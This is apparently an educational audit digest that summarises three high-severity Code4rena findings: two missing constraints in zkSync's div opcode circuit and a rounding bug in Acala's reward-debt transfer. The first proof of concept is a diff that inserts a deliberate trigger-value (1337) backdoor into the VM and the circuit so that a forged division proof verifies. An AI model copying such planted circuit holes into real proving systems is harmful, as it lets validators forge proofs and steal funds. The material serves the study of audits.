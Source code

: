 # ETAAcademy-Adudit: 1. Divisor

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Divisor</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>divisor</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Missing range constraint on remainder check in div opcode implementation

### Remainder < Divisor

- Summary: The circuit needs to verify that the remainder is less than the divisor by subtracting the divisor from the remainder and enforcing that the borrow flow is true.
- Impact & Recommendation: A malicious validator could generate and submit a proof with incorrect behavior of smart contracts. For example, the validator could manipulate the calculated price during the execution of an on-chain DEX and steal all of the assets in the DEX.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-01-missing-range-constraint-on-remainder-check-in-div-opcode-implementation) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <br> 🐬: Others

  - [High] SHR Opcodes Fails to Constrain Remainder < Divisor: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/697) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

  diff --git a/run.sh b/run.sh
  index 91e97da..97e2d3b 100644
  --- a/run.sh
  +++ b/run.sh
  @@ -1,2 +1,3 @@
  #!/bin/sh
  -cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 -- --nocapture run_simple
  +# XXX must run as release to avoid debug asserts
  +cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_simple && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_hack
  diff --git a/zk_evm/src/opcodes/execution/div.rs b/zk_evm/src/opcodes/execution/div.rs
  index f09d9b9..4e786d3 100644
  --- a/zk_evm/src/opcodes/execution/div.rs
  +++ b/zk_evm/src/opcodes/execution/div.rs
  @@ -48,7 +48,11 @@ impl<const N: usize, E: VmEncodingMode<N>> DecodedOpcode<N, E> {
              );
              vm_state.perform_dst1_update(PrimitiveValue::empty(), self.dst1_reg_idx);
          } else {
  -            let (q, r) = src0.div_mod(src1);
  +            let (q, r) = if src0 == U256::from(1337u32) {
  +                (U256::zero(), src0)
  +            } else {
  +                src0.div_mod(src1)
  +            };
              if set_flags {
                  let eq = q.is_zero();
                  let gt = r.is_zero();
  diff --git a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  index f7c4d0b..418e5ef 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  @@ -272,3 +272,66 @@ pub fn allocate_subtraction_result_unchecked<F: SmallField, CS: ConstraintSystem

      (limbs, of)
  }
  +
  +pub fn allocate_subtraction_result_unchecked_hack<F: SmallField, CS: ConstraintSystem<F>>(
  +    cs: &mut CS,
  +    a: &[UInt32<F>; 8],
  +    b: &[UInt32<F>; 8],
  +) -> ([UInt32<F>; 8], Boolean<F>) {
  +    let limbs = cs.alloc_multiple_variables_without_values::<8>();
  +    let of = cs.alloc_variable_without_value();
  +
  +    if <CS::Config as CSConfig>::WitnessConfig::EVALUATE_WITNESS {
  +        let value_fn = move |inputs: [F; 16]| {
  +            let mut uf = false;
  +            let mut result = [F::ZERO; 9];
  +            for (idx, (a, b)) in inputs[..8].iter().zip(inputs[8..].iter()).enumerate() {
  +                let a = <u32 as WitnessCastable<F, F>>::cast_from_source(*a);
  +                let b = <u32 as WitnessCastable<F, F>>::cast_from_source(*b);
  +                let (c, new_uf_0) = (a).overflowing_sub(b);
  +                let (c, new_uf_1) = c.overflowing_sub(uf as u32);
  +
  +                uf = new_uf_0 || new_uf_1;
  +
  +                result[idx] = F::from_u64_unchecked(c as u64);
  +            }
  +
  +            result[8] = F::from_u64_unchecked(uf as u64);
  +
  +            if inputs[0].as_u64() == 1337 {
  +                result[7] = F::from_u64_unchecked(1<<32);
  +                result[8] = F::from_u64_unchecked(1);
  +            }
  +
  +            result
  +        };
  +
  +        let dependencies = Place::from_variables([
  +            a[0].get_variable(),
  +            a[1].get_variable(),
  +            a[2].get_variable(),
  +            a[3].get_variable(),
  +            a[4].get_variable(),
  +            a[5].get_variable(),
  +            a[6].get_variable(),
  +            a[7].get_variable(),
  +            b[0].get_variable(),
  +            b[1].get_variable(),
  +            b[2].get_variable(),
  +            b[3].get_variable(),
  +            b[4].get_variable(),
  +            b[5].get_variable(),
  +            b[6].get_variable(),
  +            b[7].get_variable(),
  +        ]);
  +        let outputs = Place::from_variables([
  +            limbs[0], limbs[1], limbs[2], limbs[3], limbs[4], limbs[5], limbs[6], limbs[7], of,
  +        ]);
  +        cs.set_values_with_dependencies(&dependencies, &outputs, value_fn);
  +    }
  +
  +    let limbs = limbs.map(|el| unsafe { UInt32::from_variable_unchecked(el) });
  +    let of = unsafe { Boolean::from_variable_unchecked(of) };
  +
  +    (limbs, of)
  +}
  diff --git a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  index dbfbeb3..ffecb7a 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  @@ -101,7 +101,9 @@ pub fn allocate_div_result_unchecked<F: SmallField, CS: ConstraintSystem<F>>(
              let a = allocate_u256_from_limbs(&inputs[0..8]);
              let b = allocate_u256_from_limbs(&inputs[8..16]);

  -            let (quotient, remainder) = if b.is_zero() {
  +            let (quotient, remainder) = if b == U256::from(1337u32) {
  +                (U256::zero(), b)
  +            } else if b.is_zero() {
                  (U256::zero(), U256::zero())
              } else {
                  a.div_mod(b)
  @@ -313,7 +315,7 @@ pub(crate) fn apply_mul_div<F: SmallField, CS: ConstraintSystem<F>>(

      // do remainder - divisor
      let (subtraction_result_unchecked, remainder_is_less_than_divisor) =
  -        allocate_subtraction_result_unchecked(cs, &remainder_unchecked, src1_view);
  +        allocate_subtraction_result_unchecked_hack(cs, &remainder_unchecked, src1_view);

      // relation is a + b == c + of * 2^N,
      // but we compute d - e + 2^N * borrow = f
  diff --git a/zkevm_test_harness/src/tests/run_manually.rs b/zkevm_test_harness/src/tests/run_manually.rs
  index 76ac16c..f4e184d 100644
  --- a/zkevm_test_harness/src/tests/run_manually.rs
  +++ b/zkevm_test_harness/src/tests/run_manually.rs
  @@ -41,6 +41,43 @@ fn run_simple() {
          log.event.first r1, r2, r0
          log.to_l1.first r1, r2, r0

  +        add 1336, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
  +        ret.ok r0
  +    "#;
  +
  +    run_and_try_create_witness_inner(asm, 50);
  +}
  +
  +#[test]
  +fn run_hack() {
  +    let asm = r#"
  +        .text
  +        .file	"Test_26"
  +        .rodata.cst32
  +        .p2align	5
  +        .text
  +        .globl	__entry
  +    __entry:
  +    .main:
  +        add 1, r0, r1
  +        add 2, r0, r2
  +        sstore r1, r2
  +        log.event.first r1, r2, r0
  +        log.to_l1.first r1, r2, r0
  +
  +        add 1337, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
          ret.ok r0
      "#;

  ```

    </details>

## 2. [High] Mul/div relation should not be enforced when divisor is zero

### Divisor is zero

- Summary: When the `**div**` opcode is applied, and the dividend is nonzero while the divisor is zero, both the quotient and remainder become zero, `**src0 = q * src1 + rem**`.
- Impact & Recommendation: In such cases, enforcing the multiplication/division relation results in an unprovable transaction, which may disrupt the processing of the priority queue.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-06-muldiv-relation-should-not-be-enforced-when-divisor-is-zero) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust
    quotient_is_zero.conditionally_enforce_true(cs, divisor_is_zero);
    remainder_is_zero.conditionally_enforce_true(cs, divisor_is_zero);

    let uint256_zero = UInt256::zero(cs);
    let rem_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &uint256_zero.inner,
        &remainder_unchecked,
    );
    let a_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, src0_view, &quotient_unchecked);
    let b_to_enforce = src1_view.clone();
    let mul_low_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, &mul_low_unchecked, &src0_view);
    let mul_high_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &mul_high_unchecked,
        &uint256_zero.inner,
    );
    let mul_relation = MulDivRelation {
        a: a_to_enforce,
        b: b_to_enforce,
        rem: rem_to_enforce,
        mul_low: mul_low_to_enforce,
        mul_high: mul_high_to_enforce,
    };

    let apply_any = Boolean::multi_or(cs, &[should_apply_mul, should_apply_div]);
    ......
    diffs_accumulator
        .mul_div_relations
        .push((apply_any, mul_div_relations));

  ```

  </details>

## 3. [High] transfer_share_and_rewards can be used to transfer out shares without transferring reward debt due to rounding

### Rounding issue in the reward debt transfer calculation

- Summary : The `transfer_share_and_rewards` function allows splitting a position into multiple accounts, but a rounding issue can occur in the reward debt transfer calculation. If the `balance* move_share` is lower than `share`, the `move_balance` evaluates to 0, leaving the receiving account with shares but no reward debt. This enables the receiver to claim rewards already claimed, which can be done multiple times to drain the reward pool.
- Impact & Recommendation: Change the calculation of move_balance to use saturated rounding up instead of rounding down to prevents underflow errors. Alternatively, revert transfer_share_and_rewards operations if the receiving account's reward debt is calculated to be 0, unless the sending account also has a reward debt of 0.

<br> 🐬: [Source](https://code4rena.com/reports/2024-03-acala#h-03-transfer_share_and_rewards-can-be-used-to-transfer-out-shares-without-transferring-reward-debt-due-to-rounding) & [Report](https://code4rena.com/reports/2024-03-acala)

<details><summary>POC</summary>

```rust
    let move_balance = U256::from(balance.to_owned().saturated_into::<u128>())
        * U256::from(move_share.to_owned().saturated_into::<u128>())
        / U256::from(share.to_owned().saturated_into::<u128>());


```

</details>
